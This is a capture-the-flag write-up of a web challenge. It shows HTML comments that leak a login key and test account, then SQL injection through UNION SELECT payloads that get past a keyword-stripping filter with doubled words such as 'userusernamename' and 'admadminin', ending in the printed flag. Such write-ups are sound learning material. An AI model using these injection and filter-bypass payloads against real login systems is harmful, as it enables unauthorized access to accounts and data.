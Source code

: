 And we hit the homepage!

```html
<body>
    <h1>Welcome to Internal server!</h1>
    <a href="/login">Go to Login Page</a>
    <a href="/archive">Go to Archive</a>
</body>
```

`/archive` required login, but`/login` was helpful.

```html
<body>
    <h1>Login</h1>

    <!-- Just legacy code. But still work. -->
    <!-- Test Account: guest / guest -->

    <!-- <form action="/login" method="get">
        <input name="key" type="hidden" value="392cc52f7a5418299a5eb22065bd1e5967c25341">
        <label for="name">Username</label>
        <input name="username" type="text"><br>
        <label for="name">Password</label>
        <input name="password" type="text"><br>
        <button type="submit">Login</button>
    </form> -->

    <form action="/login" method="post">
        <label for="name">Username</label>
        <input name="username" type="text"><br>
        <label for="name">Password</label>
        <input name="password" type="text"><br>
        <button type="submit">Login</button>
    </form>

</body>
```

The obvious `/login?key=392cc52f7a5418299a5eb22065bd1e5967c25341&username=guest&password=guest` just returned `{"message":"Welcome! guest, You are not admin."}` though, and I got stuck for a while thinking we needed to access the response's `Set-Cookie` somehow. Or mint our own cookie - yep, this is what JWT brainrot looks like. I even hashcracked the key (`neverguessable`). But in the last half hour I realised it was just SQLi in `username` or `password`... So I pulled in teammates to help.

`username` and `or` were getting replaced, so we couldn't just `or 1=1`. We tried unicode substitution and comments like `user/**/name`, but bradan came in clutch with `userusernamename` .

`http://192.168.200.120:808?key=...&username=test' UNION SELECT * from users WHERE userusernamename LIKE '%'-- ;&password=test`

 This returned the `aaa` user so we tried `LIKE 'admin'`, then spent an intense couple minutes figuring out `admin` was also substituted.`LIKE 'admadminin'` authenticated and the server response told us the flag was the password. toasterpwn tried a column select and after some frantic attempts with `password`, we finally solved it 8 minutes before the CTF ended.
 
 `username=test' UNION SELECT passwoorrd,1 from users WHERE userusernamename LIKE 'admadminin' -- ;` returned the flag `codegate2025{83ef613335c8534f61d83efcff6c2e18be19743069730d77bf8fb9b18f79bfb9}`.

